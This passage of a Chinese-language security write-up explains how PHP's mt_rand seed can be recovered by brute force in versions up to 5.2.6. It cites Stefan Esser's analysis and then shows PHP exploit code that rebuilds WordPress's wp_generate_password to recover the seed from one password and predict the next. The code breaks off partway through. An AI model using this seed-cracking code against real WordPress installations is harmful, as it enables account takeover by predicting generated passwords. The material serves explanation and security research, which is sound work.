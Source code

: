 ```
```

从上面的代码实现了对seed的破解，另外根据Stefan Esser的分析seed还根据进程变化而变化，换句话来说同一个进程里的seed是相同的。 然后同一个seed每次mt_rand的值都是特定的。如下图：

| *seed-A* |
| mt_rand-A-1<br>mt_rand-A-2<br>mt_rand-A-3 |

| *seed-B* |
| mt_rand-B-1<br>mt_rand-B-2<br>mt_rand-B-3 |

对于seed-A里mt_rand-1/2/3都是不相等的，但是值都是特定的，也就是说当seed-A等于seed-B，那么mt_rand-A-1就等于mt_rand-B-1…，这样我们只要能够得到seed就可以得到每次mt_rand的值了。

对于5.2.6>php>4.2.0直接使用默认播种的程序也是不安全的（很多的安全人员错误的以为这样就是安全的），这个要分两种情况来分析：

第一种：'Cross Application Attacks'，这个思路在Stefan Esser文章里有提到，主要是利用其他程序定义的播种（如mt_srand ((double) microtime()`*` 1000000)），phpbb+wordpree组合就存在这样的危险.

第二种：5.2.6>php>4.2.0默认播种的算法也不是很强悍，这是Stefan Esser的文章里的描述：

    The Implementation<br>When mt_rand() is seeded internally or by a call to mt_srand() PHP 4 and PHP 5 <= 5.2.0 force the lowest bit to 1. Therefore the strength of the seed is only 31 and not 32 bits. In PHP 5.2.1 and above the implementation of the Mersenne Twister was changed and the forced bit removed.

在32位系统上默认的播种的种子为最大值是`2^32`，这样我们循环最多`2^32`次就可以破解seed。而在PHP 4和PHP 5 <= 5.2.0 的算法有个bug：奇数和偶数的播种是一样的（详见附录[3]）,测试代码如下：

```
<?php
mt_srand(4); 
$a = mt_rand(); 
mt_srand(5); 
$b = mt_rand();
print $a."\n".$b;
?>
```

通过上面的代码发现$a==$b，所以我们循环的次数为2^32/2=2^31次。我们看如下代码：

```
<?php
//base on http://www.milw0rm.com/exploits/6421 
//test on php 5.2.0

define('BUGGY', 1); //上面代码$a==$b时候定义BUGGY=1

$key = wp_generate_password(20, false);
echo $key."\n";
$seed = getseed($key);
print $seed."\n"; 

mt_srand($seed);
$pass = wp_generate_password(20, false);
echo $pass."\n";	
	
function wp_generate_password($length = 12, $special_chars = true) {
	$chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789';
	if ( $special_chars )
		$chars .= '!@#$%^&*()';

	$password = '';
	for ( $i = 0; $i < $length; $i++ )
		$password .= substr($chars, mt_rand(0, strlen($chars) - 1), 1);
	return $password;
```